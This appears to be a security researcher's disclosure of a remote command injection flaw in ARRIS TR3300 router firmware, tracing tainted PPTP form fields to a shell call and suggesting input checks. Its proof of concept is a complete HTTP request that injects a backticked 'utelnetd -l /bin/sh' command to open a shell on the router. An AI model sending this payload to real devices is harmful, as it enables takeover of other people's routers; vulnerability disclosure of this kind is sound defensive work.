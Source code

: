 # ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `pptp` function(`wan_pptp.html`), `pptp_fix_ip、pptp_fix_mask、pptp_fix_gw、wan_dns1_stat` is directly passed by the attacker, so we can control the `pptp_fix_ip、pptp_fix_mask、pptp_fix_gw、wan_dns1_stat` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

First, accept and process the content of the field(`pptp_fix_ip、pptp_fix_mask、pptp_fix_gw、wan_dns1`), and then call the function `nvram_set ` to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc_apps` binary:

As you can see here, in `sub_40D78C` function, the initial input will be extracted.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Eventually, in `sub_409884` function, the initial input will cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## PoC

We set `pptp_fix_ip` as **`/usr/sbin/utelnetd -l /bin/sh -p 10006`**, and the router will excute it,such as:

```http
POST /wan_pptp.html HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 345
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wan_pptp.html
Upgrade-Insecure-Requests: 1

pptp_enable=&pptp_username=pjqwudi&pptp_passwd=abc123&pptp_dyna=&pptp_fix_ip=`/usr/sbin/utelnetd -l /bin/sh -p 10006`&pptp_fix_mask=255.255.255.0&pptp_fix_gw=192.168.0.1&pptp_serv_ip=pjqwudi&pptp_conn_id=1&pptp_mtu=1436&h_pptp_enable=enable&h_pptp_dyna=enable&h_pptp_dod=disable&todo=save&this_file=wan_pptp.html&next_file=wan_pptp.html&message=
```

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>
